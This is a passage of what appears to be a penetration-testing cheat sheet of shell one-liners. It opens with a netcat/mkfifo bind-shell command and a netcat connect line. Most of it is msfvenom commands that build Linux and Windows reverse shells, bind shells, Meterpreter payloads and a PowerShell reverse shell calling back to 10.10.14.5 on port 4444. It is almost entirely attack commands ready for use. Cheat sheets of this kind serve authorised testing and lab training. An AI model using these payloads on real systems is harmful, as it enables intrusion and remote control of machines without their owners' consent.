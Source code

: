 ```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash 2>&1 | nc -nlvp 4444 > /tmp/f
```

## Connect to bind shell on target

```bash
nc $IP 4444
```

## Create Linux ELF reverse shell with msfvenom

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf > shell.elf
```

## Create Linux ELF bind shell with msfvenom

```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f elf > bind.elf
```

## Create Linux meterpreter with msfvenom

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf > met.elf
```

## Create Windows reverse shell with msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe > shell.exe
```

## Create Windows meterpreter with msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe > met.exe
```

## Create Windows bind shell with msfvenom

```bash
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe > bind.exe
```

## Create PowerShell reverse shell with msfvenom

```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f raw > shell.ps1
```

## Upgrade shell to TTY using Python
